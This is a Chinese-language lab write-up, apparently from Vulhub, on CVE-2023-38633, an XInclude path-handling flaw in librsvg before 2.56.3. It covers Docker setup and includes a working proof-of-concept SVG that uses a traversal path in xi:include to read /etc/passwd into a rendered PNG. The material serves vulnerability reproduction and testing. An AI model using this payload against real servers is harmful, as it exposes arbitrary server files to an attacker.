


# librsvg XInclude 文件包含漏洞 CVE-2023-38633

## 漏洞描述

librsvg是一个用于处理SVG图片的开源依赖库。

librsvg支持XML中的XInclude规范，可以用于加载外部内容。在librsvg 2.56.3版本以前，由于处理路径存在逻辑错误，导致攻击者可以传入一个恶意构造的SVG图片，进而读取到任意文件。

参考链接：

- https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/
- https://gitlab.gnome.org/GNOME/librsvg/-/issues/996

## 环境搭建

Vulhub执行如下命令启动一个PHP服务器，其中使用librsvg 2.50.7将用户上传的SVG图片转换成PNG图片并返回：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到上传页面。


## 漏洞复现

将路径嵌入到`<xi:include>`标签中，如下POC：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

上传这个SVG图片：



访问返回的图片名`6522569dc29e3.png`，可查看到`/etc/passwd`已被成功读取并渲染进PNG图片：



